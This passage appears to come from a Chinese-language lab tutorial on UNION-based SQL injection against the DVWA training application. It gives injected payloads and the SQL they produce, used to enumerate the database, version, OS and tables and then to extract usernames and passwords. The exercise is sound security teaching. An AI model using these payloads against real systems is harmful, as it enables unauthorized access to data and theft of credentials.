 ![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid454817labid3179timestamp1499673110659.png/wm)

通过上图返回信息，我们成功获取到：

- 当前网站使用数据库为 dvwa .
- 当前执行查询用户名为 root@localhost .

同理我们再输入 `1' union select version(),@@version_compile_os#`进行查询：

- version() 获取当前数据库版本.
- @@version_compile_os 获取当前操作系统。

实际执行的 Sql 语句是:

```
SELECT first_name, last_name FROM users WHERE user_id = '1' union select version(),@@version_compile_os#`;

```

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid454817labid3179timestamp1499673988773.png/wm)

通过上图返回信息，我们又成功获取到：

- 当前数据库版本为 : 5.6.31-0ubuntu0.15.10.1.
- 当前操作系统为 : debian-linux-gnu

接下来我们尝试获取 dvwa 数据库中的表名。

`information_schema` 是 mysql 自带的一张表，这张数据表保存了 Mysql 服务器所有数据库的信息, 如数据库名，数据库的表，表栏的数据类型与访问权限等。该数据库拥有一个名为 tables 的数据表，该表包含两个字段 table_name 和 table_schema，分别记录 DBMS 中的存储的表名和表名所在的数据库。

我们输入`1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`进行查询：

实际执行的 Sql 语句是：

```
SELECT first_name, last_name FROM users WHERE user_id = '1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`;

```

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid454817labid3179timestamp1499676499120.png/wm)

通过上图返回信息，我们再获取到：

- dvwa 数据库有两个数据表，分别是 guestbook 和 users .

有些同学肯定还不满足目前获取到的信息，那么我们接下来尝试获取重量级的用户名、密码。

由经验我们可以大胆猜测 users 表的字段为 user 和 password ，所以输入：`1' union select user,password from users#`进行查询：

实际执行的 Sql 语句是：

```
SELECT first_name, last_name FROM users WHERE user_id = '1' union select user,password from users#`;

```
